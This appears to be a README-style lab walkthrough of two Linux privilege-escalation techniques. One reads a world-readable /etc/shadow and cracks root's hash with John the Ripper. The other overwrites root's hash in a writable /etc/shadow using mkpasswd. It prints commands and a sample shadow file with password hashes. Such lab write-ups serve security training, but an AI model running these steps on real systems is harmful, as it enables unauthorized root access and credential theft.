# Linux-Privilege-Escalation


# 🔥01: Readable /etc/shadow:

The /etc/shadow file contains user password hashes and is usually readable only by the root user.

Note that the /etc/shadow file on the VM is world-readable:

At first check permission of /etc/shadow file using :

     ls -l /etc/shadow

    -rw-r--rw- 1 root shadow 842 Apr  9 17:28 /etc/shadow

Then , view the contents of the /etc/shadow file uisng :

              cat /etc/shadow
              
              root:$6$LRq2u1SvWmPgF$zCIh5qzquQ31ZcsL0ifM9GKh.pQRwHSKjJQSJI4Tkl5ELRHjqWTzag8upywqk.jT6/niiOIaMF9XW1/BnN55Y/:17298:0:99999:7:::
              daemon:*:17298:0:99999:7:::
              bin:*:17298:0:99999:7:::
              sys:*:17298:0:99999:7:::
              sync:*:17298:0:99999:7:::
              games:*:17298:0:99999:7:::
              man:*:17298:0:99999:7:::
              lp:*:17298:0:99999:7:::
              mail:*:17298:0:99999:7:::
              news:*:17298:0:99999:7:::
              uucp:*:17298:0:99999:7:::
              proxy:*:17298:0:99999:7:::
              www-data:*:17298:0:99999:7:::
              backup:*:17298:0:99999:7:::
              list:*:17298:0:99999:7:::
              irc:*:17298:0:99999:7:::
              gnats:*:17298:0:99999:7:::
              nobody:*:17298:0:99999:7:::
              libuuid:!:17298:0:99999:7:::
              Debian-exim:!:17298:0:99999:7:::
              sshd:*:17298:0:99999:7:::
              user:$6$M1tQjkeb$M1A/ArH4JeyF1zBJPLQ.TZQR1locUlz0wIZsoY6aDOZRFrYirKDW5IJy32FBGjwYpT2O1zrR2xTROv7wRIkF8.:17298:0:99999:7:::
              statd:*:17299:0:99999:7:::
              mysql:!:18133:0:99999:7:::




*** Each line of the file represents a user. A user's password hash (if they have one) can be found between the first and second colons (:) of each line.***

Save the root user's hash to a file called hash.txt on your Kali VM and use john the ripper to crack it. You may have to unzip /usr/share/wordlists/rockyou.txt.gz first and run the command using sudo depending on your version of Kali:

john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

Switch to the root user, using the cracked password:

su root

Happy Hacking 

# 02: writeable /etc/shadow 

check the permssion of  /etc/shadow file using /etc/shadow. If you can edit the file , you can easily change the password of root .

    ls -l /etc/shadow 
    -rw-r--rw- 1 root shadow 842 Apr  9 17:28 /etc/shadow

Look : We can edit /etc/shadow file as we have  permission

Generate a new password hash with a password of your choice :

Here  , we  use mkpasswd command for generate a password 

Command :

           mkpasswd -m sha-512 iloveislam

Here  ,    
           
           -m use for method 
          
           sha-512 use for hashing the pasword 

           iloveislam is the password 

Then , edit the /etc/shadow file and replace the original root user's password hash with the one you just generated.

Switch to the root user, using the new password:

su root

Happy Hacking   (-_-)

